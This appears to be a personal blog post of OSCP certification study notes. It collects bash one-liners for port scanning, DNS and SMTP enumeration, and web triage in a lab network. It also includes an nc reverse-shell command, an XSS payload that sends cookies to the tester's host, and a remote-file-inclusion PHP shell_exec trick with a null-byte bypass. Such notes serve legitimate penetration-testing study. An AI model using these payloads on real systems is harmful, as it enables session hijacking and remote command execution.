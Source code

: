 ```yaml
---
layout: post
title: OSCP Notes
---
```


## BLUF  
"Bottom Line Up Front" for the non-military types. Honestly I just want to get my notes onto the interwebs and off my VM. I've 
done a lot of bash scripting in OSCP that is super useful, but I can't always remember the syntax. Here's to fixing that. I'll do another blog post tomorrow when I'm not half asleep.  
Edit: After posting this my JS XSS tester executed. Kinda surprising that Github lets you incorporate XSS into a site they host. 
Maybe it's just a don't ask don't tell policy? Gotta put some filler in to stop the code from executing since it would probably 
freak out any onlookers.

## Meat and Potatoes  

### Starting OSCP Work  

Example OpenVPN firewall - /usr/share/doc/openvpn/examples/sample-config-files/firewall.sh
Add firewall rules - iptables -A INPUT -p tcp --dport 4444 -j ACCEPT
Plink (was told to locate) /usr/share/windows-binaries/plink.exe
Keepnote keepnote for note taking on boxes
If there is firewall issues, try pushing the cmd line from the remote host by passing nc -nv [IP] [Port] -e cmd.exe from remote end and setting up a listener to catch it
recon-ng for passive information gathering

### NMAP/ NC Info Gathering  

root@kali:~/OSCP# nc -nvv -w 1 -z 10.11.23.156 3385-3395 (full TCP handshake scan using NC)
root@kali:~/OSCP# nc -unvv -w 1 -z 10.11.23.156 160-165 (UDP scan using NC)
/usr/share/nmap (location of nmap config files)

### Get top UDP ports (over .01 usage according to NMAP)  

cat /usr/share/nmap/nmap-services | grep '/udp'| cut -f2,3 -d$'\t'| sort -k2 -r | head -n 80 | cut -f1 -d'/'

### DNS  

host -t ns [domain_name] (to find name servers for given domain)
host -t mx [domain_name] (to find mail exchange servers for given domain)
for ip in $(cat NMAP/alives.txt); do dnsrecon -d $ip -t axfr; done

### SMTP/MIB  

cat mib-values | cut -f1 -d$'\t' (to cut from tab delimited)
tail -n +1 10.* (cat all files in a directory with the filename as a header)
for ip in $(cat smtp-open.txt); do for user in $(cat users.txt) ; do ./vrfy.py $ip $user; done; done | grep ^"250" > smtp_open_connected_users & (to find SMTP users who have successfully connected)
for ip in $(cat NMAP/alives.txt); do nc -nv $ip 25; done (to test SMTP connection using nc [not as good as python script])
for ip in $(ls | cut -c1-11 | uniq); do mkdir $ip ; done (to creat folders for each ip address in the SNMP directory)

### WGET  

#### To find the ips with information returned from WGET  
tail -n +1 ./WGET/*/* | grep connected | cut -f3 -d' '| sort -u | cut -f4 -d'.' | cut -f1 -d':' | sort -u > ./WGET/web_vuln_ips
 
#### For moving vulnerable IPs to seperate folder  
for ip in $(cat web_vuln_ips); do  mv 10.11.1.$ip 'Vulnerable Servers'; done 

#### To get list of vulnerable files downloaded  
for ip in $(cat ./WGET/web_vuln_ips); do  tail -n +1 ./WGET/$ip/* | grep 10.11.1.$ip/; done

### XSS Commands

#### Test  
"<iframe SRC="(use your IP):(Port to listen on) /report" height="0" width="0"></iframe>
</script>alert("XSS through Javascript, success");</script>"

#### Cookie Stealing Inject  
<script>new Image().src="http://(use your IP):81 /bogus.php?output="+document.cookie;</script>

#### Malicious php code to host on local box  
echo '<?php echo shell_exec("ipconfig");?>' > /var/www/html/evil.txt

##### Then place the appropriate url in place of the php element  
http://(local ip)/evil.txt  

#### Then monitor Apache log once the above has been placed in URL
tail -f /var/log/apache2/access.log  

###### If php is adding unnecessary values, php 5.3 and below are vulnerable to terminating characters with null character
http://(local ip)/evil.txt%00  
  
### Dirbuster  
Wordlist - /usr/share/dirbuster/wordlists/directory-list-1.0.txt (one shown in OSCP video)
Deselect "Brute Force Files" & "Be Recursive"
Set number of threads to 70+
